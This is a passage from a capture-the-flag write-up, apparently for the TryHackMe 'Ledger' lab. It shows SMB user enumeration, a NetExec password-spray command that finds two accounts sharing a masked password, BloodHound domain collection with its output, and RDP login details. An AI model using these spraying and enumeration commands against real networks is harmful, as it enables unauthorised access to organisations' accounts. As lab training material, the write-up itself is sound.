 ```bash
SMB         TargetIP    445    LABYRINTH        1158: THM\SHELLEY_BEARD (SidTypeUser)
SMB         TargetIP    445    LABYRINTH        1159: THM\SILAS_WALLS (SidTypeUser)
SMB         TargetIP    445    LABYRINTH        1160: THM\AMOS_MCPHERSON (SidTypeUser)
...
```

<h4>Users with 'Cxxxxxxxxx23!' password</h4>

```bash
:~/Ledger# nxc smb ledger.thm -u usernames.txt -p 'Cxxxxxxxxx23!' --continue-on-success
SMB         TargetIP    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False) 
SMB         TargetIP    445    LABYRINTH        [+] thm.local\IVY_WILLIS:Cxxxxxxxxx23! 
SMB         TargetIP    445    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:Cxxxxxxxxx23!
```

<br>

<h3>BloodHound</h3>

```bash
:~/Ledger# bloodhound-python -d thm.local -c All -u 'IVY_WILLIS' -p 'Cxxxxxxxxx23!' -ns TargetIP --dns-tcp
NFO: Found AD domain: thm.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 493 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 222 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: labyrinth.thm.local
INFO: Done in 00M 05S
```

<br>

<h3>Remmina</h3>

<p>

- SUSANNA_MCKNIGHT<br>
- Cxxxxxxxxx23!<br>
- thm.local
</p>


<img width="1069" height="634" alt="image" src="https://github.com/user-attachments/assets/8353e201-9e54-459e-853b-7536a4fe3e5b" />

<br>
